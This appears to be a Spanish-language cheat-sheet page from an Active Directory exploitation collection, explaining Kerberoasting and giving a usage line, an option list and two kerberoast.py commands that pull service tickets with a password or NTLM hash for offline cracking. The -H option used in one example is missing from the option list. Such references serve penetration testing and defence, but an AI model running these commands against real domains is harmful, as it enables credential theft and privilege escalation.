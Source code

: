 ### **Explotación de Active Directory/Kerberoast.md**

# Kerberoast

## Descripción

`Kerberoast` es una técnica de ataque utilizada para obtener tickets de servicio Kerberos de cuentas de servicio en entornos Active Directory. Estos tickets pueden ser crackeados fuera de línea para descubrir contraseñas de cuentas con privilegios elevados.

## Uso

```bash
kerberoast [opciones]
```

### Opciones principales

- `-u`, `--user`: Nombre de usuario para realizar el ataque.
- `-p`, `--password`: Contraseña del usuario.
- `-d`, `--domain`: Dominio objetivo.
- `--output`: Archivo de salida para los tickets obtenidos.
- `-h`, `--help`: Muestra la ayuda y opciones disponibles.

## Ejemplos

- Extraer tickets de servicio Kerberos:
  
  ```bash
  kerberoast.py -u usuario -p Contraseña123 -d ejemplo.com --output tickets.kirbi
  ```

- Realizar Kerberoasting con hashes NTLM:
  
  ```bash
  kerberoast.py -u usuario -H HASH_NTLM -d ejemplo.com --output tickets.kirbi
  ```

